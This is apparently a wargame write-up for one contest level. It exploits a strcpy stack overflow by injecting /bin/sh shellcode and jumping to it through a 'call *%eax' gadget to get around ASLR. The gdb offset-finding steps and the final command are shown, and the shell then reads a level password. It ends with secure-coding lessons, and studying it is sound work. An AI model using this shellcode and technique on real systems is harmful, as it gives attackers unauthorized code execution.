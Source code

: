 ## Level 4: always check array boundaries

todo: redo commands using the remote shell, espcially gdb

The source code on this level is surprisingly simple:
```
void fun(char *str) {
  char buf[1024];
  strcpy(buf, str);
}

int main(int argc, char **argv) {
  // ... 
  fun(argv[1]);
  // ... 
}
```

The problem is quite obvious:
`strcpy` is well-known to be unsafe,
as it does not check if the destination array has enough space to store the source array.
With a sufficiently long command line argument we can overwrite the memory area beyond `buf` in the `fun` function.

If you recall from the previous challenge,
in the OS of our live CD,
the return address is stored on the stack after local variables.
That means that by overwriting `buf`,
we can overwrite the return address,
which in turn means that we can make the program jump to anywhere we want.

In the previous challenge we overwrote the return address to jump to the insecure function `run`.
In this case, however,
we don't have such insecure function within the program,
and thus no easy place to jump to.
On the other hand,
perhaps we can bring into the program our own code using the input string,
and then write over the end of the buffer to jump to our code.

What kind of code do we want to write to the input string?
The simplest possible code that will be useful for us is something that executes `/bin/sh`, also known as *shellcode*.
How can we write such code into the input string?
We could insert the binary content of the compiled shellcode the same we inserted the return address in binary form.

Writing the shellcode itself is beyond the scope of this article.
It is thoroughly explained in the Smash The Stack article,
see in the resources.
Essentially it is a modified version of this simple C program:
```
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
```
If you just compile this code and take its binary content to insert as the shellcode,
it won't work, for several reasons.
It is necessary to modify the machine language instructions,
among other things,
to eliminate null bytes from it.
This is necessary,
because `strcpy` stops copying at the first null character it sees,
which would break the shellcode.
There are many more important details to writing a suitable shellcode,
you can read more about it in the Smash The Stack article.

For our purposes,
we will take the finished shellcode from the Smash The Stack article:
```
char shellcode[] =
        "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
        "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
        "\x80\xe8\xdc\xff\xff\xff/bin/sh";
```
Let's save it in the environment variable `EGG`:
```
EGG=$(printf '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')
```
Next,
like in the previous challenge,
we need to find the right position in the input spring where we can overwrite the return address.
We know that the content of the stack will look like this when we are inside `fun`:
```
0x0000      content of the local variable buf (1024 bytes)
0x0400+?    the return address
```
That is, the return address is somewhere soon after the end of the buffer.
We can find the right position by using `gdb`.
When we overwrite the return address with something invalid,
the program crashes with segmentation fault.
When `gdb` reaches such code,
it prints out this wrong address.
With a suitable input string and the output `gdb`,
we can find out the precise location we will want to overwrite.

Let's start the debugger:
```
```
Let's run with a crafted input string,
hopefully overwriting the return address:
```
(gdb) run $(python -c 'print "A" * 1100')
Starting program: /storage/home/janos/dev/git/github/articles/hacking-contest-lessons/level04 $(python -c 'print "A" * 1100')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
Good, we have successfully overwritten the return address with "A"s.
Let's try a shorter string,
and something that will help us guess the correct position better:
```
(gdb) run $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')
Starting program: /storage/home/janos/dev/git/github/articles/hacking-contest-lessons/level04 $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')

Program received signal SIGSEGV, Segmentation fault.
0x706f6e6d in ?? ()
```
70, 6f, 6e, 6d, that's a decreasing sequence,
so it must be somewhere in our `abcd...xyz` sequence.
We can know exactly if we check the hexadecimal codes of our sequence:
```
$ echo abcdefghijklmnopqrstuvwxyz | hexdump -C
00000000  61 62 63 64 65 66 67 68  69 6a 6b 6c 6d 6e 6f 70  |abcdefghijklmnop|
00000010  71 72 73 74 75 76 77 78  79 7a 0a                 |qrstuvwxyz.|
0000001b
```
As `m=6d n=6e o=6f p=70`,
the return address is in the position of the letters `mnop`.
Since there are 12 letters before "m",
we can calculate that we need an input string of length 1024 + 12 + 4,
where the last 4 bytes will be the address we want to jump to.
Let's verify this final number with one last test in `gdb`:
```
(gdb) run $(python -c 'print "A" * 1036 + "mmmm"')
Starting program: /storage/home/janos/dev/git/github/articles/hacking-contest-lessons/level04 $(python -c 'print "A" * 1036 + "mmmm"')

Program received signal SIGSEGV, Segmentation fault.
0x6d6d6d6d in ?? ()
```
Ok that's really the one.
What next?
Our string should start with the shellcode,
followed by some padding until 1036 bytes,
and finally the address to jump to.
We can confirm the size of our shellcode using `wc -c`:
```
$ printf $EGG | wc -c
45
```
Thus, we will need 1036 - 45 = 991 padding characters.
But what about the address?
We want to jump to the address of `buf`,
but how can we know that?
Unfortunately, we cannot.
In the past,
the stack used to be always at the same address in memory,
which was relatively easy to exploit.
If you could get your shellcode on the stack,
it was relatively easy to guess the right address to jump at.
As of today,
this is no longer feasible,
thanks to the address space layout randomization (ASLR) used in modern operating systems.

So what can we do?
After hours of poking around,
I stumbled upon some interesting details which can be combined to an interesting effect:

- On 32-bit x86 processors (the architecture of the live CD),
  a function that returns a pointer value places its result in register `%eax`.

- There happen to be addresses inside the program which execute the code at the address stored in register `%eax`.

- `strcpy` is the last call in the function `fun`.

What happens is,
the `strcpy` will return the address of the destination array `buf`,
which will be stored in register `%eax`.
And since it is the last line of code in the function,
the register will still contain the address of `buf` when the function returns.
Thus,
if we overwrite the return address in the memory with the address that executes jumping to the content of `%eax`,
and consequently `buf`,
our shellcode will get executed.

We can find the location of calls with register `%eax` with:
```
level03@box:/levels/level04$ objdump -d level04 | grep call.*eax
 8048488:	ff 14 85 1c 9f 04 08 	call   *0x8049f1c(,%eax,4)
 80484cf:	ff d0                	call   *%eax
 80485fb:	ff d0                	call   *%eax
```
That's it, we can use either `0x080484cf` or `0x080485fb` as the address to jump to.
```
level03@box:/levels/level04$ ./level04 $EGG$(python -c 'print "A" * 991')$(printf '\xcf\x84\x04\x08')
/levels/level04 $ cat /home/level04/.password 
paegeiqu
```

What can we learn from all this?

- Don't use unsafe functions like `strcpy`.
  Stick to their safer versions like `strncpy`.

- Always make sure that arrays cannot be accessed beyond their boundaries.

- Always validate user input, and set reasonable limits to the length.
